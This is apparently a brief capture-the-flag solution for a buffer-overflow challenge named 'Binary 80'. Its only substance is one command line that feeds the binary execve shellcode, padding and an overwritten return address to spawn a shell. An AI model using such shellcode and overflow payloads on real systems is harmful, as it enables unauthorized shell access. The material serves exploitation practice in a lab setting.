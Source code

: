 Binary 80

Looks like this program has a buffer overflow vulnerability! But there's no code inside that spawns a shell, so it must be secure! Get the flag anyway by exploiting it on our shell sever.


Simple ROP

./art_of_the_shell $(python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "A" * 45 + "\xfe\x05\x40"')

